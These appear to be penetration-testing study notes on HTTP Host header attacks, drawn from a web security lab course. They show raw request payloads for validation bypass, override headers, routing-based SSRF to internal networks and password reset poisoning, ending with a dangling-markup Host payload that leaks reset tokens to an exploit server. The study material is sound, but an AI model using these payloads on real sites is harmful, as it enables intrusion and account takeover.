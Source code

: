 # HTTP Host header attacks
In short, you need to identify whether you are able to modify the Host header and still reach the target application with your request. If so, you can use this header to probe the application and observe what effect this has on the response.  
Some parsing algorithms will omit the port from the Host header, meaning that only the domain name is validated. If you are also able to supply a non-numeric port, you can leave the domain name untouched to ensure that you reach the target application, while potentially injecting a payload via the port.  

```
GET /example HTTP/1.1
Host: vulnerable-website.com:bad-stuff-here
```
Other sites will try to apply matching logic to allow for arbitrary subdomains. In this case, you may be able to bypass the validation entirely by registering an arbitrary domain name that ends with the same sequence of characters as a whitelisted one:  
```
GET /example HTTP/1.1
Host: notvulnerable-website.com
```
Alternatively, you could take advantage of a less-secure subdomain that you have already compromised: 
```
GET /example HTTP/1.1
Host: hacked-subdomain.vulnerable-website.com
```
## Inject duplicate Host headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: bad-stuff-here
```
Let's say the front-end gives precedence to the first instance of the header, but the back-end prefers the final instance. Given this scenario, you could use the first header to ensure that your request is routed to the intended target and use the second header to pass your payload into the server-side code.  
## Add line wrapping
You can also uncover quirky behavior by indenting HTTP headers with a space character. Some servers will interpret the indented header as a wrapped line and, therefore, treat it as part of the preceding header's value. Other servers will ignore the indented header altogether. 
```
GET /example HTTP/1.1
    Host: bad-stuff-here
Host: vulnerable-website.com
```
The website may block requests with multiple Host headers, but you may be able to bypass this validation by indenting one of them like this. If the front-end ignores the indented header, the request will be processed as an ordinary request for vulnerable-website.com  
Now let's say the back-end ignores the leading space and gives precedence to the first header in the case of duplicates. This discrepancy might allow you to pass arbitrary values via the "wrapped" Host header.  
## Inject host override headers
```
GET /example HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-Host: bad-stuff-here
```
Other overriding headers:
* X-Host
* X-Forwarded-Server
* X-HTTP-Host-Override
* Forwarded
We can use `Param Miner` extension from Burp to guess headers  
## Web cache poisoning via the Host header
If Host header is reflected somehow in response and site uses web cache, we can use it to exploit web-cache poisoning attack  
For example we can add second Host header to change js file source  
## Exploiting classic server-side vulnerabilities
For example, you should try the usual SQL injection probing techniques via the Host header. If the value of the header is passed into a SQL statement, this could be exploitable.  
Also some websites could use Host header to analyze privilege level. For example, we can access admin panel via changing `Host` value to localhost  
## Routing-based SSRF
Host header could be a potential vector for attack on load balancers, which receive traffic from public net and have access to internal network  
If we are able to manipulate host header, next step is to identify internal network or hostnames, If we aren't able to detect any, we can simply bruteforce default networks such as `192.168.0.0/16`  
We can test Host vulnerability by replacing Host value with Burp collaborator server and detect 200 response and coolaborator servver name in response.  
When scanning internal network with Burp Intruder, uncheck `Update Host header to match target`  
Another way to bypass Host restrictions is to use absolute url in GET request and use arbitrary Host header:
```
GET https://0ac900040418a9eb816f840c00fd0053.web-security-academy.net/ HTTP/2
Host: zdgrjgxy8z4v9ccpq8i5fcm9i0orcm0b.oastify.com
```

## Connection state attacks
For performance reasons, many websites reuse connections for multiple request/response cycles with the same client. Poorly implemented HTTP servers sometimes work on the dangerous assumption that certain properties, such as the Host header, are identical for all HTTP/1.1 requests sent over the same connection. This may be true of requests sent by a browser, but isn't necessarily the case for a sequence of requests sent from Burp Repeater.  
For example, you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection  
In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection.  
Fo this purpose we can add two requests in group. First request will have normal Host header and `Connection` header set to keep-alive, while second request must have Host header with value of internal IP and `Connection` set top close. Next we sen group sequentially in single connection.  

## SSRF via a malformed request line
Custom proxies sometimes fail to validate the request line properly, which can allow you to supply unusual, malformed input with unfortunate results.  
For example, a reverse proxy might take the path from the request line, prefix it with http://backend-server, and route the request to that upstream URL. This works fine if the path starts with a / character, but what if starts with an @ character instead? 
The resulting upstream URL will be http://backend-server@private-intranet/example, which most HTTP libraries interpret as a request to access private-intranet with the username backend-server.  

## Password reset poisoning
1. The attacker obtains the victim's email address or username, as required, and submits a password reset request on their behalf. When submitting the form, they intercept the resulting HTTP request and modify the Host header so that it points to a domain that they control
2. The victim receives a genuine password reset email directly from the website. This seems to contain an ordinary link to reset their password and, crucially, contains a valid password reset token that is associated with their account. However, the domain name in the URL points to the attacker's server
3. If the victim clicks this link (or it is fetched in some other way, for example, by an antivirus scanner) the password reset token will be delivered to the attacker's server
4. The attacker can now visit the real URL for the vulnerable website and supply the victim's stolen token via the corresponding parameter.  

Even if you can't control the password reset link, you can sometimes use the Host header to inject HTML into sensitive emails. Note that email clients typically don't execute JavaScript, but other HTML injection techniques like dangling markup attacks may still apply.  
We can add something like this to change host reflection in reset password mail:
```
Host: normal-host:'<a href="//exploit-0a6300c0039c728fc01880350103009d.exploit-server.net/?
```